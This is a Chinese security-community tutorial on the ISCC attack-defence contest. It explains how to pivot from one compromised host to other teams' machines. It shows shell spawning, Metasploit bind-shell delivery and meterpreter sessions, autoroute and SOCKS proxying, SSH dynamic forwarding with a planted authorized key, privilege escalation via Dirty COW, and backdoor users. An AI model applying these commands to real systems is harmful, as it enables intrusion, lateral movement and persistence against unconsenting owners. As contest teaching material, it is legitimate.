



# ISCC线下如何配置代理攻击其他私地及高地-先知社区

> **来源**: https://xz.aliyun.com/news/17478  
> **文章ID**: 17478

---

# 前言

去年去打了ISCC线下赛，当时出现了一些队伍对于AWD/内网了解不多，导致手里拿着exp但是无法攻击得分的尴尬情况

# 网络解释

本次测试有四台机器

```
Windows（宿主机）:
    192.168.10.5
kali（代理机/攻击机）:
    192.168.138.133
    192.168.222.130
Ubuntu（私地）:
    192.168.222.132
    192.168.234.132
Ubuntu（其他私地/高地）:
    192.168.234.134
```

根据ISCC的规则以及网络环境，本机可以直接访问私地，不能直接访问其他私地和高地，自己的私地不能回连攻击机，所有私地服务器都是在同一个C段的（但是可以按照b段先把存活主机扫出来，因为高地服务器不与私地在同一网段），自己的两个私地服务器可以互相访问

这篇文章只负责讲述如何在拿下一个shell后建立代理攻击其他私地和高地

# 教程

### 1.msf生成后门



因为自己的私地不能回连攻击机，所以生成正向后门

### 2.将后门放到私地

一般情况下是一个pwn一个web，如果你可以拿下web私地，上传文件自然很简单，但是pwn在攻击成功后只是一个/bin/sh，首先就是要建立shell终端,可以用python起一个（一般都有python环境）

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

pwn一般是Linux主机，可以通过echo来写文件，建议在pwntools中发送

```
cat msf | base64 > 1.txt //将文件base64编码
echo 对应内容 > file //写入文件
太大的话分多次写入， >>
base64 -d file > msf //这样就把可执行文件发送过来了
```

当然，如果你有web的权限，直接上传个文件，wget或者curl下来更快

nc也可以进行传输文件

```
接收机
nc -l -p 1234 > msf
发送机
nc -w 3 ip 1234 < msf
```

### 3.上线msf，配置代理

在shell终端运行上传的后门

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp

msf6 exploit(multi/handler) > set LPORT 6677 //与生成后门的端口一致
msf6 exploit(multi/handler) > set RHOST 192.168.222.132 //私地地址
RHOST => 192.168.222.132
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 192.168.222.132:6677
[*] Sending stage (176198 bytes) to 192.168.222.132
[*] Meterpreter session 1 opened (192.168.222.130:46277 -> 192.168.222.132:6677)

然后马上进程迁移，因为不太稳定
ps
migrate 7828 //找一个可以注入的系统进程

然后添加路由表
meterpreter > run post/multi/manage/autoroute
[+] Route added to subnet 192.168.222.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.234.0/255.255.255.0 from host's routing table.
meterpreter > run autoroute -p
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.222.0      255.255.255.0      Session 1
   192.168.234.0      255.255.255.0      Session 1

//配置代理
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set session 1 //设置一下session
[!] Unknown datastore option: session.
session => 1
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  1080             yes       The port to listen on
   VERSION  5                yes       The SOCKS version to use (Accepted: 4a, 5)


   When VERSION is 5:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   USERNAME                   no        Proxy username for SOCKS5 listener


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server

msf6 auxiliary(server/socks_proxy) > run
```

然后在宿主机使用profixer连接kali开放的1080端口即可



### 4.访问2.34网段的机器



此时我们就可以成功访问其他私地的机器了，这样就不用看着自己手里拿着exp但是只能看着其他队伍上分，被打的只能选择删除附件选择宕机了

# 其他方法

### ssh转发

```
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/ubuntu/.ssh/id_rsa):
然后一直回车
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPyMVTrAI1L8xWcpUAFHafbr61S8Vccp9lcw5usIcGBW root@St4rry' >> ~/.ssh/authorized_keys
ssh -D 1080 -C -q -N iscc@ip
```

### proxy工具

[snail007/goproxy](https://github.com/snail007/goproxy)

```
./proxy http -t tcp -p "0.0.0.0:6666" --daemon
```

这种方法最简单，可以拿到shell后把工具传上去，然后执行上述命令后直接用profixer连就行了

# 其他注意

### 提权

因为上次给的服务器都是ubuntu16.04，所以完全可以拿脏牛漏洞拿root权限，上次web的话普通用户没有修改文件的权限，必须提权，但是因为是断网打，所以建议提前备好。CVE-2021-4034应该也能提权，不过没试，这个msf内置了

### 连接不稳定

可能会出现连接不稳定造成session掉线的情况，因此建议先提前新建一个后门用户，同时把附件给上个通防，防止别人打进来破坏环境

​

参考内容：

<https://blog.csdn.net/Che_ng/article/details/145045522>
